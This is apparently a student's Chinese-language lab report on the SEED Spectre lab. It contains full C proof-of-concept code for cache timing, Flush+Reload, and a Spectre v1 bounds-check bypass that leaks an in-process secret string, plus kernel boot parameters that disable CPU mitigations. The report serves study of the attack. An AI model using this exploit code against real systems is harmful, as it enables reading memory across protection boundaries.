








# Spectre 攻击

（本实验在WSL2上完成）

CPU信息：

```
qiyue2001@DESKTOP-TL7B363:~/seed-labs/spectre$ lscpu
Architecture:                    x86_64
CPU op-mode(s):                  32-bit, 64-bit
Byte Order:                      Little Endian
Address sizes:                   39 bits physical, 48 bits virtual
CPU(s):                          12
On-line CPU(s) list:             0-11
Thread(s) per core:              2
Core(s) per socket:              6
Socket(s):                       1
Vendor ID:                       GenuineIntel
CPU family:                      6
Model:                           158
Model name:                      Intel(R) Core(TM) i7-9750H CPU @ 2.60GHz
Stepping:                        10
CPU MHz:                         2592.008
BogoMIPS:                        5184.01
Hypervisor vendor:               Microsoft
Virtualization type:             full
L1d cache:                       192 KiB
L1i cache:                       192 KiB
L2 cache:                        1.5 MiB
L3 cache:                        12 MiB
Vulnerability Itlb multihit:     KVM: Mitigation: VMX unsupported
Vulnerability L1tf:              Mitigation; PTE Inversion
Vulnerability Mds:               Vulnerable: Clear CPU buffers attempted, no microcode; SMT Host state unknown
Vulnerability Meltdown:          Mitigation; PTI
Vulnerability Spec store bypass: Mitigation; Speculative Store Bypass disabled via prctl and seccomp
Vulnerability Spectre v1:        Mitigation; usercopy/swapgs barriers and __user pointer sanitization
Vulnerability Spectre v2:        Mitigation; Full generic retpoline, IBPB conditional, IBRS_FW, STIBP conditional, RSB filling
Vulnerability Srbds:             Unknown: Dependent on hypervisor status
Vulnerability Tsx async abort:   Not affected
Flags:                           fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 ss ht syscall nx pdpe1gb rdtscp lm constant_tsc rep_good nopl xtopology cpuid p
                                 ni pclmulqdq ssse3 fma cx16 pcid sse4_1 sse4_2 movbe popcnt aes xsave avx f16c rdrand hypervisor lahf_lm abm 3dnowprefetch invpcid_single pti ssbd ibrs ibpb stibp fsgsbase bmi1
                                 avx2 smep bmi2 erms invpcid rdseed adx smap clflushopt xsaveopt xsavec xgetbv1 xsaves flush_l1d arch_capabilities
```

## Task 1: Reading from Cache versus from Memory


```c
#include <stdio.h>
#include <stdint.h>
#include <emmintrin.h>
#include <x86intrin.h>
uint8_t array[10 * 4096];
int main(int argc, const char **argv) {
	int junk = 0;
	register uint64_t time1, time2;
	volatile uint8_t *addr;
	int i;
// Initialize the array
	for (i = 0; i < 10; i++) array[i * 4096] = 1;
// FLUSH the array from the CPU cache
	for (i = 0; i < 10; i++) _mm_clflush(&array[i * 4096]);
// Access some of the array items
	array[3 * 4096] = 100;
	array[7 * 4096] = 200;
	for (i = 0; i < 10; i++) {
		addr = &array[i * 4096];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		printf("Access time for array[%d*4096]: %d CPU cycles\n", i, (int)time2);
	}
	return 0;
}
```

保存为`CacheTime.c`，然后

```shell
gcc -march=native CacheTime.c -std=c99
```

```
Access time for array[0*4096]: 1802 CPU cycles
Access time for array[1*4096]: 204 CPU cycles
Access time for array[2*4096]: 206 CPU cycles
Access time for array[3*4096]: 72 CPU cycles
Access time for array[4*4096]: 220 CPU cycles
Access time for array[5*4096]: 218 CPU cycles
Access time for array[6*4096]: 228 CPU cycles
Access time for array[7*4096]: 78 CPU cycles
Access time for array[8*4096]: 228 CPU cycles
Access time for array[9*4096]: 226 CPU cycles
```

多次运行，发现Access time for array[3\*4096]和Access time for array[7\*4096]不会超过100，其余一般超过200。选择150个CPU cycles作为cache的阈值。

## Task 2: Using Cache as a Side Channel

```c
#include <stdio.h>
#include <stdint.h>
#include <emmintrin.h>
#include <x86intrin.h>
uint8_t array[256 * 4096];
int temp;
unsigned char secret = 94;
/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024
void flushSideChannel()
{
	int i;
// Write to array to bring it to RAM to prevent Copy-on-write
	for (i = 0; i < 256; i++) array[i * 4096 + DELTA] = 1;
// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i * 4096 + DELTA]);
}
void victim()
{
	temp = array[secret * 4096 + DELTA];
}
void reloadSideChannel()
{
	int junk = 0;
	register uint64_t time1, time2;
	volatile uint8_t *addr;
	int i;
	for (i = 0; i < 256; i++) {
		addr = &array[i * 4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD) {
			printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
			printf("The Secret = %d.\n", i);
		}
	}
}
int main(int argc, const char **argv)
{
	flushSideChannel();
	victim();
	reloadSideChannel();
	return (0);
}
```

保存为`FlushReload.c`，然后编译运行。

```
gcc -march=native FlushReload.c
```


## Task 3: Out-of-Order Execution and Branch Prediction

```c
#include <stdio.h>
#include <stdint.h>
#include <emmintrin.h>
#include <x86intrin.h>
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024
int size = 10;
uint8_t array[256 * 4096];
uint8_t temp = 0;
void victim(size_t x)
{
	if (x < size) {	// MARK 1
		temp = array[x * 4096 + DELTA];	// MARK 2
	}
}
void reloadSideChannel()
{
	int junk = 0;
	register uint64_t time1, time2;
	volatile uint8_t *addr;
	int i;
	for (i = 0; i < 256; i++) {
		addr = &array[i * 4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD) {
			printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
			printf("The Secret = %d.\n", i);
		}
	}
}
void flushSideChannel()
{
	int i;
// Write to array to bring it to RAM to prevent Copy-on-write
	for (i = 0; i < 256; i++) array[i * 4096 + DELTA] = 1;
// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i * 4096 + DELTA]);
}
int main()
{
	int i;
// FLUSH the probing array
	flushSideChannel();
// Train the CPU to take the true branch inside victim()
	for (i = 0; i < 10; i++) {	// MARK 3
		victim(i);		// MARK 4
	}
// Exploit the out-of-order execution
	_mm_clflush(&size);	// STAR
	for (i = 0; i < 256; i++)
		_mm_clflush(&array[i * 4096 + DELTA]);
	victim(97);	// MARK 5
// RELOAD the probing array
	reloadSideChannel();
	return (0);
}
```

保存为`SpectreExperiment.c`，然后编译运行。

```
gcc -march=native SpectreExperiment.c
```



* Comment out the line marked with STAR and execute again. Explain your observation. After you are
  done with this experiment, uncomment it, so the subsequent tasks are not affected.

  更难通过旁路攻击获得secret了。原因分析：进入victim函数后，CPU一边等待`x < size`的判断，一边乱序执行取数指令。如果之前调用`_mm_clflush(&size)`，那么`x < size`需要花两百多个指令周期取数，这时很有可能乱序执行的`temp = array[x * 4096 + DELTA];`已经完成，cache中已有array[x * 4096 + DELTA]了。反之，`x < size`很快完成，`temp = array[x * 4096 + DELTA];`还没执行完毕就终止分支执行，CPU cache中不会有array[x * 4096 + DELTA]。

  

* Replace MARK 4 with victim(i + 20); run the code again and explain your observation.

  无法成功获得secret。`i+20`均不满足`x<size`，CPU被训练为选择False分支。



## Task 4: The Spectre Attack

```c
#include <stdio.h>
#include <stdint.h>
#include <emmintrin.h>
#include <x86intrin.h>
#define CACHE_HIT_THRESHOLD (120)
#define DELTA 1024
unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0, 1, 2, 3, 4, 5, 6, 7, 8, 9};
char *secret = "Some Secret Value"; // MARK 1
uint8_t array[256 * 4096];
void reloadSideChannel()
{
	int junk = 0;
	register uint64_t time1, time2;
	volatile uint8_t *addr;
	int i;
	for (i = 0; i < 256; i++) {
		addr = &array[i * 4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD) {
			printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
			printf("The Secret = %d.\n", i);
		}
	}
}
void flushSideChannel()
{
	int i;
// Write to array to bring it to RAM to prevent Copy-on-write
	for (i = 0; i < 256; i++) array[i * 4096 + DELTA] = 1;
// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i * 4096 + DELTA]);
}
// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
	if (x <= bound_upper && x >= bound_lower) {
		return buffer[x];
	} else { return 0; }
}
void spectreAttack(size_t index_beyond)
{
	int i;
	uint8_t s;
	volatile int z;
// Train the CPU to take the true branch inside restrictedAccess().
	for (i = 0; i < 10; i++) {
		restrictedAccess(i);
	}
// Flush bound_upper, bound_lower, and array[] from the cache.
	_mm_clflush(&bound_upper);
	_mm_clflush(&bound_lower);
	for (i = 0; i < 256; i++) { _mm_clflush(&array[i * 4096 + DELTA]); }
	for (z = 0; z < 100; z++) { }
	s = restrictedAccess(index_beyond); // MARK 2
	array[s * 4096 + DELTA] += 88; // MARK 3
}
int main() {
	flushSideChannel();
	size_t index_beyond = (size_t)(secret - (char*)buffer); // MARK 4
	printf("secret: %p \n", secret);
	printf("buffer: %p \n", buffer);
	printf("index of secret (out of bound): %ld \n", index_beyond);
	spectreAttack(index_beyond);
	reloadSideChannel();
	return (0);
}
```


保存为`SpectreAttack.c`，然后编译运行。

```
gcc -march=native SpectreAttack.c
```



成功获得了Secret 83（即首字母S）。

## Task 5: Improve the Attack Accuracy

上述攻击在一些情况下可能不能得到准确结果，故采用统计方法，每次实验中如果满足时间小于等于阈值则将对应的score+1，多次实验，认为score最大的是secret。

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>	// for usleep()
#include <emmintrin.h>
#include <x86intrin.h>
#define CACHE_HIT_THRESHOLD (120)
#define DELTA 1024
unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0, 1, 2, 3, 4, 5, 6, 7, 8, 9};
char *secret = "Some Secret Value";
uint8_t array[256 * 4096];

static int scores[256];
void reloadSideChannelImproved()
{
	int junk = 0;
	register uint64_t time1, time2;
	volatile uint8_t *addr;
	int i;
	for (i = 0; i < 256; i++) {
		addr = &array[i * 4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD)
			scores[i]++; /* if cache hit, add 1 for this value */
	}
}
void flushSideChannel()
{
	int i;
// Write to array to bring it to RAM to prevent Copy-on-write
	for (i = 0; i < 256; i++) array[i * 4096 + DELTA] = 1;
// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i * 4096 + DELTA]);
}
// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
	if (x <= bound_upper && x >= bound_lower) {
		return buffer[x];
	} else { return 0; }
}
void spectreAttack(size_t index_beyond)
{
	int i;
	uint8_t s;
	volatile int z;
// Train the CPU to take the true branch inside restrictedAccess().
	for (i = 0; i < 10; i++) {
		restrictedAccess(i);
	}
// Flush bound_upper, bound_lower, and array[] from the cache.
	_mm_clflush(&bound_upper);
	_mm_clflush(&bound_lower);
	for (i = 0; i < 256; i++) { _mm_clflush(&array[i * 4096 + DELTA]); }
	for (z = 0; z < 100; z++) { }
	s = restrictedAccess(index_beyond);
	array[s * 4096 + DELTA] += 88;
}

int main() {
	int i;
	uint8_t s;
	size_t index_beyond = (size_t)(secret - (char*)buffer);
	flushSideChannel();
	for (i = 0; i < 256; i++) scores[i] = 0;
	for (i = 0; i < 1000; i++) {
		printf("*****\n"); // MARK 1
		spectreAttack(index_beyond);
		usleep(10); // MARK 2
		reloadSideChannelImproved();
	}
	int max = 1;
	for (i = 1; i < 256; i++) {
		if (scores[max] < scores[i])
			max = i;
	}
	printf("Reading secret value at index %ld\n", index_beyond);
	printf("The secret value is %d(%c)\n", max, max);
	printf("The number of hits is %d\n", scores[max]);
	return (0);
}
```

保存为`SpectreAttackImproved.c`，然后编译运行。

```
gcc -march=native SpectreAttackImproved.c
```



Tasks：

1. You may observe that when running the code above, the one with the highest score is very likely to be
   scores[0]. Please figure out why, and fix the code above, so the actual secret value (which is not
   zero) will be printed out.
2. MARK 1 seems useless, but from our experience on SEED Ubuntu 20.04, without this line, the attack
   will not work. On the SEED Ubuntu 16.04 VM, there is no need for this line. We have not figured out
   the exact reason yet, so if you can, your instructor will likely give you bonus points. Please run the
   program with and without this line, and describe your observations.
3. MARK 2 causes the program to sleep for 10 microseconds. How long the program sleeps does affect
   the success rate of the attack. Please try several other values, and describe your observations.

Answer:

1. 由于`restrictedAccess`在越界时总是返回0，`array [0 * 4096 + 1024]`总是被缓存。修改方法：统计最大值时从1开始。

2. 注释掉`printf("*****\n");`后的结果：

   

怀疑是内核的某种mitigation，于是加内核参数：

```
noibrs noibpb nopti nospectre_v2 nospectre_v1 l1tf=off nospec_store_bypass_disable no_stf_barrier mds=off mitigations=off
```

但攻击依然无法完成。

将`printf("*****\n");`改为`printf("*");`或`printf("**");`或...或`printf("******");`，攻击也无法完成：



进一步测试发现，`printf("*\n");`和`printf("**\n");`一般不能完成攻击，`printf("****\n");`和`printf("***\n");`有时成功，有时不能。

还是有待进一步研究。

3. 修改usleep的时长为5、20、500，均能实现攻击。usleep时长与成功率的关系有待进一步研究。

## Task 6: Steal the Entire Secret String

只需将攻击过程循环18次即可。

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>	// for usleep()
#include <emmintrin.h>
#include <x86intrin.h>
#define CACHE_HIT_THRESHOLD (120)
#define DELTA 1024
unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0, 1, 2, 3, 4, 5, 6, 7, 8, 9};
char *secret = "Some Secret Value";
uint8_t array[256 * 4096];

static int scores[256];
void reloadSideChannelImproved()
{
	int junk = 0;
	register uint64_t time1, time2;
	volatile uint8_t *addr;
	int i;
	for (i = 0; i < 256; i++) {
		addr = &array[i * 4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD)
			scores[i]++; /* if cache hit, add 1 for this value */
	}
}
void flushSideChannel()
{
	int i;
// Write to array to bring it to RAM to prevent Copy-on-write
	for (i = 0; i < 256; i++) array[i * 4096 + DELTA] = 1;
// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i * 4096 + DELTA]);
}
// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
	if (x <= bound_upper && x >= bound_lower) {
		return buffer[x];
	} else { return 0; }
}
void spectreAttack(size_t index_beyond)
{
	int i;
	uint8_t s;
	volatile int z;
// Train the CPU to take the true branch inside restrictedAccess().
	for (i = 0; i < 10; i++) {
		restrictedAccess(i);
	}
// Flush bound_upper, bound_lower, and array[] from the cache.
	_mm_clflush(&bound_upper);
	_mm_clflush(&bound_lower);
	for (i = 0; i < 256; i++) { _mm_clflush(&array[i * 4096 + DELTA]); }
	for (z = 0; z < 100; z++) { }
	s = restrictedAccess(index_beyond);
	array[s * 4096 + DELTA] += 88;
}

int main() {
	int i;
	uint8_t s;
	for (int k = 0; k < 17; ++k) {	// Task 6
		size_t index_beyond = (size_t)(secret - (char*)buffer);
		flushSideChannel();
		for (i = 0; i < 256; i++) scores[i] = 0;
		for (i = 0; i < 1000; i++) {
			printf("*****\n"); // MARK 1
			spectreAttack(index_beyond + k);
			usleep(10); // MARK 2
			reloadSideChannelImproved();
		}
		int max = 1;
		for (i = 1; i < 256; i++) {
			if (scores[max] < scores[i])
				max = i;
		}
		printf("Reading secret value at index %ld\n", index_beyond);
		printf("The secret value is %d(%c)\n", max, max);
		printf("The number of hits is %d\n", scores[max]);
	}
	return (0);
}
```

